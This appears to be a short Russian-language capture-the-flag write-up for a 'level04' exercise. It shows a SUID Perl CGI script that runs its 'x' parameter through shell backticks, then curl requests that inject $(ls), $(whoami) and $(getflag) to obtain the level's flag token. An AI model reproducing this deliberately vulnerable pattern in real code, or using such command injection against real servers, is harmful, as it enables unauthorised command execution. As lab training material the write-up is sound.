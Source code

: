 # RCE (Remote Code Execution)

Посмотрев есть ли что-то находим файл со скриптом и нужным SUID
```
ls -l
```
> -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

```
cat level04.pl
```
> \#!/usr/bin/perl\
\# localhost:4747\
use CGI qw{param};\
print "Content-type: text/html\n\n";\
sub x {\
  $y = $_[0];\
  print \`echo $y 2>&1\`;\
}\
x(param("x"));

Из скрипта понятно, что на порту 4747 работает сервер, в котором настроен CGI
Принимает параметром x, который попробуем ему передать

```
curl 'localhost:4747/?x=$(ls)'
```
> level04.pl

Выходит, а значит можем продожать

```
curl 'localhost:4747/?x=$(whoami)'
```
> flag04

Команды выполняются от нужношо флага, а значит ему нужно передать getflag

```
curl 'localhost:4747/?x=$(getflag)'
```
> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
